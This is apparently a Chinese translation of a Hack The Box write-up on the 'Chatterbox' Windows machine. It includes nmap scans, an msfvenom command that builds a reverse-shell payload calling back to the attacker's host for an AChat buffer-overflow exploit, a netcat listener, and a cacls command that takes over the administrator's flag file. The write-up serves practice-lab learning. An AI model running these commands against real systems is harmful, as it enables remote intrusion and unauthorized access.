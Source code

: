 # Chatterbox —远程缓冲区溢出黑客

> 原文：<https://infosecwriteups.com/chatterbox-hack-the-box-writeup-dacb2ee8593d?source=collection_archive---------7----------------------->

![](img/2240a9e9efc8f05ee1172c76f19eb6c8.png)

话匣子

上个月我一直忙于大学毕业和新工作的过渡。我也从 VulnHub 过渡到了 Hackthebox，到目前为止我对它非常满意！不多说了，这里有一篇关于我几周前拥有的一个最近退役的盒子的文章。

# 摘要

Chatterbox 是运行聊天客户端的 Windows 机器，容易受到远程缓冲区溢出的攻击。由于权限弱/配置错误，利用此漏洞可以获得主机上的反向外壳并获得用户和根标志。

# 侦察/扫描

我开始用我的首选 nmap 扫描来探测服务检测`-sV`和默认脚本`-sC`。然而，这些没有返回任何结果，所以我运行了一个完整的端口扫描。这些扫描可能需要很长时间。因为我没有必要担心启动 IDS/IPS 设备，所以我运行了一个更主动的扫描来快速返回结果。

```
nmap -sT --min-rate 5000 --max-retries 1 -p-10.10.10.74 
```

nmap -p-

这返回了一个端口，然后我使用默认脚本对其运行服务扫描。

```
nmap -sC -sV -p9256 10.10.10.74 
```

nmap -p9256

# **AChat 远程缓冲区溢出**

使用`searchsploit`查找服务返回了 AChat 0.150 beta7 的远程缓冲区溢出漏洞。这是该服务返回的唯一漏洞，所以我非常确定这是路径，因为没有其他服务在 TCP 上运行。

这是我第一次完全利用缓冲区溢出，更不用说在远程主机上了。回顾一下`searchsploit` python 脚本的代码，有一个 shellcode 有效负载是用 msfvenomto 运行`cmd.exe`来执行`calc.exe`生成的，作为利用的概念证明。当您在远程主机上运行它时，它会使服务崩溃并弹出 calc！

为了验证这个漏洞，我启动了一个 Windows 7 虚拟机，下载了一个运行在我的主机上的 AChat 0.150 beta7。我将漏洞脚本中的主机 IP 更改为我的虚拟机，并将其关闭，成功地使服务崩溃并弹出`calc.exe`。太好了！现在我需要从这个漏洞中得到一个反向外壳。

# **反壳**

```
msfvenom -a x86 — platform Windows -p windows/shell_reverse_tcp -f python -e x86/unicode_mixed -b ‘\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff’ BufferRegister=EAX LHOST=10.10.14.2 LPORT=1234
```

好吧，这是我用过的最长的一句俏皮话之一。让我们来分解一下:

> `-a`x86 指定 32 位架构
> `-platform Windows`指定远程主机的平台
> `-p windows/shell_reverse_tcp`指定有效负载
> `-f python`指定格式化 python 脚本的输出
> `-e x86/unicode_mixed`指定编码器
> `-b`指定在编码中要避免的坏字符
> `BufferRegister=EAX`指定目标缓冲寄存器
> `LHOST`指定要连接回的本地主机 IP(我的 IP)
> `LPORT`指定要连接的本地端口(我的端口)

在这个有效载荷中需要强调的一点是`shell_reverse_tcp`是`reverse_tcp`的替代，它不需要 meterpreter 处理程序。我选择这个是因为我正在准备 OSCP 考试，并试图使用尽可能少的 metasploit。事实上，这个漏洞利用有一个 metasploit 模块，但是我选择稍微脏一点，用稍微不太自动化的方式打开这个盒子。

运行`msfvenom`的输出如下所示:

MSF 毒液有效载荷

我可以将其设置为 python 脚本的有效负载，替换弹出 calc.exeand 的外壳代码，并在端口 1234 上设置 netcatlistener。

```
nc -lvnp 1234
```

话匣子反壳

从这里开始，获取用户标志就像打印文件内容一样简单:

```
type “C:\Users\Alfred\Desktop\user.txt”
```

下一步是获取根标志。

# **根标志**

我发现我能够一直导航到管理员的桌面目录，这对于低权限用户来说是不常见的。然而，我无法键入根标志。我想既然我已经被允许进入这个目录，我就可以改变根标志的读取权限。

```
cacls “C:\Users\Administrator\Desktop\root.txt” /E /P Alfred:F
```

> `cacls` Windows 实用程序查看/编辑文件权限
> `/E`编辑 ACL
> `/P`设置权限
> `Alfred:F`授予 Alfred 对文件的完全控制权

果然，我能够授予自己读取该文件的权限，并成功地检索到根标志！

在得到我需要的东西后，我恢复了这个盒子，因为缓冲区溢出使服务崩溃，我让用户可以读取根标志。

# **成交单据**

总之，这是一个相当快的盒子，我很喜欢它。它让我能够接触到一些我还没有使用过的技术。我绝对推荐 Hackthebox，他们的实验室环境和论坛对任何想磨练自己的人来说都是一个极好的资源。